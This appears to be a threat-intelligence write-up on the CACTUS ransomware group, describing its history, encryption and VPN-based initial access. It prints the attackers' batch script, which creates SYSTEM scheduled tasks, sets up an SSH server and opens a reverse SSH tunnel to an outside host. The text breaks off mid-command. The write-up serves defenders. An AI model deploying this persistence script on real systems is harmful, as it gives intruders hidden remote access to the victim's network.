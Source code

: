 ## History 

The CACTUS ransomware is said to have emerged around March 2023. The group became known for exploiting vulnerabilities to gain initial access and maintain a presence within the organization's infrastructure.

There is little known information about the ransomware group, except that it emerged on the mentioned date and, following encryption, a text file named 'cAcTuS.readme.txt' would be created. Additionally, encrypted files were altered to the '.cts1' extension, and data exfiltration and victim extortion were conducted through the use of the service known as Tox.

As mentioned earlier, the ransomware especially exploits vulnerabilities in VPNs, also utilizing obfuscation techniques to conceal its activities, such as employing UPX and utilizing encryption algorithms like OpenSSL, AES OCB, ChaCha20_Poly1305, system reinitializations, and others.

## Ransomware Cactus Attack Chain

**INITIAL ACCESS**
For Initial Access, the ransomware group exploits known vulnerabilities in VPN devices, followed by the creation of an SSH backdoor that facilitates access for the actor and manages to persist within the organization's infrastructure.

In these invasions through vulnerable VPN devices, the actors exploited the use of VPN service accounts and then used the following command to set up an SSH server to maintain persistent access, using scheduled tasks. The scheduled task is named 'Updates Check Task' and runs every 5 minutes, executed as SYSTEM.

|echo off %programdata%\sshd\ssh-keygen -f %programdata%\sshd\config\id_rsa -t rsa -N "" icacls %programdata%\sshd\config\keys\id_rsa /inheritance:r icacls %programdata%\sshd\config\keys\id_rsa /grant:r "%username%":"(R)" icacls %programdata%\sshd\config\id_rsa /inheritance:r icacls %programdata%\sshd\config\id_rsa /grant:r "%username%":"(R)" schtasks.exe /create /sc minute /mo 1 /tn "SSH Server" /rl highest /np /tr "%programdata%\sshd\sshd.exe -f %programdata%\sshd\config\sshd_config" schtasks.exe /create /sc minute /mo 1 /tn "SSH Key Exchange" /rl highest /np /tr "%programdata%\sshd\ssh.exe -i %programdata%\sshd\config\keys\id_rsa -N -R 22682:127.0.0.1:2222 -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -o ServerAliveCountMax=15 root@| 


